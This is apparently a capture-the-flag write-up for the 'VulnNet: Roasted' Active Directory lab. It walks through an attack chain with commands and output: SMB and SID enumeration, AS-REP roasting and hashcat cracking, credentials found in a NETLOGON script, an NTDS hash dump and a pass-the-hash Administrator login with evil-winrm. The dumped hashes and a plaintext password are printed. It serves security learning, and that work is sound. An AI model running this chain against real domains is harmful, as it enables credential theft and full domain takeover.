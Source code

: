 # VulnNet: Roasted

## Enumeration using nmap
<pre>nmap -sV -sC 10.10.227.72 -Pn

Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-21 20:26:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-21T20:26:08
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.99 seconds</pre>

- Port 139 + 445 is open

## Enum4Linux
<pre>enum4linux 10.10.227.72  
Domain Name:VULNNET-RST                                                                                                                           Domain Sid: S-1-5-21-1589833671-435344116-4136949213</pre>

## SMB Enumeration
- Port 139 + 445 is open
- Use `smbmap` to enumerate shares

<pre>smbmap -H 10.10.227.72 -u anonymous

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.227.72:445        Name: 10.10.227.72              Status: Guest session   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing</pre>

- Read access to the IPC$ share as `anonymous`
- We are able to list domain users using `lookupsid.py`

## lookupsid.py
- Brute forcing of Windows SIDs to identify users.groups on the target

https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers  

<pre>sudo lookupsid.py anonymous@10.10.227.72

[sudo] password for kali: 
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 10.10.227.72
[*] StringBinding ncacn_np:10.10.227.72[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)</pre>

We have discovered the following user accounts:  
Administrator  
Guest  
krbtgt  
WIN-2BO8M1OE1M1$  
enterprise-core-vn  
a-whitehat  
t-skid  
j-goldenhand  
j-leet  

### AS-REP Roasting
AS-REP Roasting occurs when a user account has the privilege "Does not require pre-authentication" in Active Directory.  

This means that the account does not need to provide identification before requesting a Kerberos ticket on the user account.

- Use GetNPUsers.py
- Query AS-REP Roastable accounts from Key Distribution Centre using usernames we discovered stored in users.txt  

<pre>GetNPUsers.py VULNNET-RST.local/ -no-pass -usersfile /home/kali/Documents/VulnNet_Roast/users.txt -dc-ip 10.10.227.72
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:8a24fbdc2cc549621c14d12a525046e4$74c507233131c5f1c3e8cb7ff409ebaac2abe9c3aa1b9bfb9e652e0bfe1a9580c731a68d652b4ffa2b27211a9a2d8db205fa5fac1690e1d3cf9752cff2e93e21e79ae056c22cafe1d06fa065a4009424e05a60605ed2de250565265ea6c60c4898963f5ab4454c5b5959a048fc56e4be25d6627f46d3bdec2d2aa49de9d3d0781f30d57855f6aa23eb733c59c5d824bb6b546e938a865964349d3aab414ed1a6f21dd68ceab6e7e81c75695bb5954dbfb901459b4ee839775f92c6f48a9fb92c78feb0a1e96b7dba8dda09d45b705aaadd4009d51bbb6a762eae59e8bc01147c84f9894e03bfbaafbf317170fbb249052be02aefa392
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set</pre>

Discovered a hash for user account `t-skid`  

Hash is displayed as `Kerberos 5, etype 23, AS-REP`  

- Crack the hash using Hashcat
<pre>hashcat -m 18200 /home/kali/Documents/VulnNet_Roast/TGT_ticket.txt /usr/share/wordlists/rockyou.txt</pre>

We now have cracked the password for user account `t-skid`

## Enumerate + Connect to SMB using t-skid account
- Enumerate the shares we can access
<pre>smbmap -H 10.10.227.72 -u t-skid -p '*****'</pre>

- As the Anonymous account earlier, we couldn't access NETLOGON
- Connect to NETLOGON share

<pre>smbclient \\\\10.10.227.72\\NETLOGON -U t-skid
Password for [WORKGROUP\t-skid]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Mar 16 19:15:49 2021
  ..                                  D        0  Tue Mar 16 19:15:49 2021
  ResetPassword.vbs                   A     2821  Tue Mar 16 19:18:14 2021

smb: \> get ResetPassword.vbs
getting file \ResetPassword.vbs of size 2821 as ResetPassword.vbs (1.6 KiloBytes/sec) (average 1.6 KiloBytes/sec)</pre>

- Discovered credentials in the .vbs script

strUserNTName = "a-whitehat"  
strPassword = "*********"

## Dump NTDS.dit
- Check if user `a-whitehat` has the privilege to dump hashes 

<pre>secretsdump.py vulnnet-rst/a-whitehat:'bNdKVkjv3RR9ht'@10.10.227.72

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7633f01273fc92450b429d6067d1ca32:::
vulnnet-rst.local\enterprise-core-vn:1104:aad3b435b51404eeaad3b435b51404ee:8752ed9e26e6823754dce673de76ddaf:::
vulnnet-rst.local\a-whitehat:1105:aad3b435b51404eeaad3b435b51404ee:1bd408897141aa076d62e9bfc1a5956b:::
vulnnet-rst.local\t-skid:1109:aad3b435b51404eeaad3b435b51404ee:49840e8a32937578f8c55fdca55ac60b:::
vulnnet-rst.local\j-goldenhand:1110:aad3b435b51404eeaad3b435b51404ee:1b1565ec2b57b756b912b5dc36bc272a:::
vulnnet-rst.local\j-leet:1111:aad3b435b51404eeaad3b435b51404ee:605e5542d42ea181adeca1471027e022:::
</pre>

## Evil-WinRM
- Ultimate shell for hacking/pentesting

<pre>evil-winrm -i 10.10.227.72 -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d</pre>
